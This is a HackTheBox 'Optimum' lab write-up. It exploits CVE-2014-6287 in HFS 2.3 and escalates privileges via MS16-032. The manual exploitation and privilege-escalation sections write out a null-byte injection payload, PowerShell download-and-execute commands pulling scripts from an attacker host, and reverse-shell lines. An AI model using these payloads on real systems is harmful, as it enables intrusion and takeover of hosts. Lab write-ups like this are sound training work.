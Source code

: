 
## Reconnaissance

### nmap 

- Only port 80 HTTPFileSystem

![](./IMG/0.png)
### Web Application

- Browse the File System
- It's based on HTTP File System 2.3

![](./IMG/1.png)

- Search Exploit code for HTTP File System 2.3
```
searchsploit HFS | grep 2.3
```

![](./IMG/2.png)

- The work exploit code is 49584 python.
- And here is some research for this vulnerability ([CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287))
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

![](./IMG/3.png)
- According to the description, the vulnerability happend on the search function.
- Through %00 sequence to append command.
- The vulnerability happend by **scripting command**
- According to this article : [HFS: Scripting Command](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
![](./IMG/4.png)

- We can use following script to execute RCE. ```
```
exec | <file> or <command>
```

![](./IMG/5.png)
## Exploit 

- Now I will try to exploit manually and exploit by existing code
### Manually

1. Access to target page ```
```
http://<target IP> :80
``` 
and insert %00  in search value 

![](./IMG/6.png)

2. Intercept above request in Burp
 
![](./IMG/7.png)
3. Append the Ping command to confirm the RCE work or not

![](./IMG/8.png)   
4.  Editing powershell reverse script from [nishang](https://github.com/samratashok/nishang), adding the following to the bottom of the file.

```Invoke-PowerShellTcp
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.145 -Port 1337
```

5. Create SimpleHTTPServer, change the RCE, and observe the httpserver log

```
%00{.exec|C:\Windows\SysNative\WindowsPowerShell\\v1.0\powershell.exe%20IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/PStcp.ps1').}
```

![](./IMG/9.png)
6.  Observe the nc listener
     
![](./IMG/10.png)
7.  Check Systeminfo
   
![](./IMG/11.png)

### Exploit by 49584.py

- Exploit Code

![](./IMG/12.png)

- According to this article, we know there are different architecture (x86 / x64)'s powershell.
	- x86 PowerShell 
		- C:\\Windows\\System32
		- C:\\Windows\\SysWow64
	- x64 PowerShell 
		- C:\\Windows\\SysNative
- PowerShell architecture x64 check 

```
[Environment]::Is64BitProcess
```

- Execute python code
![](./IMG/13.png)

![](./IMG/14.png)

- Check Systeminfo

![](./IMG/11.png)
- User Flag:

![](./IMG/15.png)

## Post Exploitation 

- First copy systeminfo (In here, I create a file named optimum.txt)

![](./IMG/16.png)

- windows-exploit-suggester update

![](./IMG/17.png)

- Execute windows-exploit-suggester
```
./windows-exploit-suggester.py --database 2023-05-16-mssb.xls --systeminfo optimum.txt
```

![](./IMG/18.png)

- Since we need to enum all vuln which sherlock mentioned.
```
grep -i function Sherlock.ps1
```

![](./IMG/19.png)

- Edit Sherlock, add the following line to the bottom of the file 
```
Find-AllVulns
```

![](./IMG/20.png)
- Execute Sherlock in Powershell reverse shell
```
IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/Sherlock.ps1')
```
- Find 3 possible privilege escalation vulnerabilies
1. ms16-032
2. ms16-034
3. ms16-135

![](./IMG/21.png)

- Search [(ExploitDB)ms16-032](https://www.exploit-db.com/exploits/39719)
- Search Exploit Result 
```
searchsploit ms16-032
```
![](./IMG/22.png)
- But if we execute this PS file, it won't success, since this ps script file only execute cmd as rev shell, it's popping up a windows on machine
  ![](./IMG/23.png)
- But we only have command prompt, we don't have a full internet session with GUI, so this ps file won't work.
- But Empire also provide the modification about this part.
- [Empire-ms16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

![](./IMG/24.png)

![](./IMG/25.png)

### Privilege Escalation 

- Edit the ms16032.ps1 from Empire data directory, here is a sample for executing, follow it to editing the file.
![](./IMG/26.png)
- Add the following to the bottom of the empire ms-16-032 powershell file.
```
Invoke-MS16032 -Command "IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/shell.ps1')" 
```
- Copy Invoke-PowershellTCP file to connect to port 1338 and named it as shell.ps1
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.145 -Port 1338
```
- Create Listener on port 1338
```
nc -nlvp 1338
```
- Execute the download script in powershell to download and execute the exploit code
- Get System Shell String will show 

```
IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/ms16032.ps1')
```

![](./IMG/27.png)
- Check nc listener on port 1338 

![](./IMG/28.png)

- Get Root Flag

![](./IMG/29.png)


## Note


## Reference 

- [(Video)ippsec-Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)
- [HFS: Scripting Command](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
- [CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287)
- [(GITHUB)nishang](https://github.com/samratashok/nishang)
- [(GITHUB)sherlock powershell file](https://github.com/rasta-mouse/Sherlock)
- [PowerShell Version, Edition and Architecture Checks](https://zzz.buzz/2017/09/11/powershell-version-edition-and-architecture-checks/)
- [(ExploitDB)MS16-032](https://www.exploit-db.com/exploits/39719)
- [(GITHUB)Empire Powershell](https://github.com/EmpireProject/Empire)
- [Empire ms-16-032 PS file](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

###### tags: `HackTheBox`,  `Windows`, `MS16-032`, `HFS 2.3`, `Empire PowerShell` 


